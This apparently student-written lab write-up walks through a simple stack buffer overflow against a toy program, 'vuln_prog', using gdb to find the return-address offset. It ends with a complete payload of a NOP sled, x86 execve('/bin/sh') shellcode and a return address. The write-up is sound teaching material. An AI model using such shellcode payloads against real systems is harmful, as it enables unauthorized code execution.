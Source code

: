 ## Simple Buffer Overflow

The objective here was to exploit a very simple buffer overflow in the program called vuln_prog.

First, I have run vuln_prog with gdb using the command: gdb vuln_prog

The size of the buffer in the program is 500 bytes. So we can try printing A's and try to fill up the buffer. We can use python or perl script. Run the following command in gdb.
```
run $(python -c "print('A'*500)")
```
The program exits normally. We now increment the A's and see if there is any variation in the output. At 508 A's we get a segmentation fault. While incrementing the number of A's and testing with gdb, we can confirm that the return address starts when we fill with 512 A's.

The next step is to place a working shell code in the buffer. First, test the shellcode to check if it works before placing it in the buffer. Next, we insert the NOP sled to solve the problem of finding the exact address of the buffer, as it increases the size of the target area. Our shell code is 45 bytes, so the rest of the 467 bytes (512 bytes, where the return address starts - 45 bytes, which is the size of shellcode) can be NOP (\x90) to fill up the buffer. Finally, we need to add the return address to our payload.
Any memory address in the NOP can be chosen as the return address and added to payload in little endian format.

The final payload:
```
$(python -c 'print "\x90"*467 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0""\x88\x46\x07\x89\x46\x0c\xb0\x0b""\x89\xf3\x8d\x4e\x08\x8d\x56\x0c""\xcd\x80\x31\xdb\x89\xd8\x40\xcd""\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x58\xd9\xff\xff"')
```
